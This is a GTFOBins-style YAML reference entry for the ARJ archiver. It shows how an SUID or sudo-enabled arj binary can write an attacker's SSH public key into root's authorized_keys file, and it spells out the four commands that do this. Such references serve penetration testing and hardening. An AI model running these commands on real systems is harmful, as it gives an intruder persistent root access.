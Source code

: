 ```yaml
---
description: ARJ (Archived by Robert Jung) is a software tool designed by Robert K. Jung for creating high-efficiency compressed file archives.
functions:
   suid:
    - description: |
    If ARJ is SUID you can copy your public ssh-key into roots authorized_keys. If the ssh-folder doesnt exist, it gets created with the right permissions.
    First we create an archive with our authorized_keys, then we extract it in right location.
    - code: "./arj a authorized_keys"
    - code: "./arj x authorized_keys.arj /root/.ssh/"
  sudo:
    - description: |
    If you can run arj with sudo priviledges you can copy your public ssh-key into roots authorized_keys. If the ssh-folder doesnt exist, it gets created with the right permissions.
    First we create an archive with our authorized_keys, then we extract it in right location.
    - code: "sudo /usr/bin/arj a authorized_keys"
    - code: "sudo /usr/bin/arj x authorized_keys.arj /root/.ssh/"
---
```

